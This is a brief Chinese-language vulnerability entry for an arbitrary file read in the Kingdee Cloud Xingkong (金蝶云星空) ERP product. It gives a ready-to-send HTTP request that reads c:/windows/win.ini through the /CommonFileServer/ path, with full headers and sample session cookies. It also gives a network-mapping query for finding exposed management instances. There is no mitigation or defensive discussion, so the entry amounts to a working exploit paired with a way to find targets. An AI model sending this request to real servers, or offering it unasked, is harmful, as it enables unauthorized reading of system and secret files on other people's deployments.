

#### 影响范围

金蝶云星空

#### 漏洞概述

金蝶云星空 任意文件读取

#### 漏洞复现

```
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=boab0ws0z3hkzpdihp2hai50; Theme=standard; kdservice-sessionid=c8d41e97-70dc-4be6-a29a-8c3446f10802
Connection: close

```



#### 网络测绘

```
app="金蝶云星空-管理中心"
```


